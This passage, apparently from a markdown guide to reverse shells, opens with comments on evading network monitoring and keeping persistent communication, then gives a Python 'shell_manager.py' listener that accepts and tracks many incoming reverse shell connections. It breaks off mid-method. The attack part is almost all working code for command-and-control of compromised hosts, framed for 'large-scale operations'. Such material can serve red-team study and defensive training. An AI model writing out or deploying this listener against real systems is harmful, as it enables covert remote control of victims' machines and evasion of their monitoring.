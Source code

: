 ```bash
# - Bypasses most network monitoring systems
# - Enables long-term persistent communication
```

### **Reverse Shell Automation and Management**

**What automation provides:** Frameworks and scripts for managing multiple reverse shells, automating deployment, and handling large-scale operations.

```bash
# Multi-shell management script
cat > shell_manager.py << 'EOF'
#!/usr/bin/env python3
import socket
import threading
import time
import subprocess

class ShellManager:
    def __init__(self):
        self.shells = {}
        self.listeners = {}
    
    def create_listener(self, port):
        """Create listener on specified port"""
        def handle_connection(conn, addr, port):
            print(f"[+] Shell connected from {addr[0]}:{addr[1]} on port {port}")
            self.shells[f"{addr[0]}:{addr[1]}"] = {
                'connection': conn,
                'address': addr,
                'port': port,
                'active': True
            }
            
            while self.shells[f"{addr[0]}:{addr[1]}"]['active']:
                try:
                    data = conn.recv(1024).decode()
                    if not data:
                        break
                    print(f"[{addr[0]}:{addr[1]}] {data.strip()}")
                except:
                    break
            
            conn.close()
            del self.shells[f"{addr[0]}:{addr[1]}"]
            print(f"[-] Shell from {addr[0]}:{addr[1]} disconnected")
        
        def listener_thread(port):
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            sock.bind(('0.0.0.0', port))
            sock.listen(5)
            print(f"[*] Listening on port {port}")
            
            while True:
                conn, addr = sock.accept()
                threading.Thread(target=handle_connection, args=(conn, addr, port)).start()
        
        thread = threading.Thread(target=listener_thread, args=(port,))
        thread.daemon = True
        thread.start()
        self.listeners[port] = thread
    
    def send_command(self, target, command):
```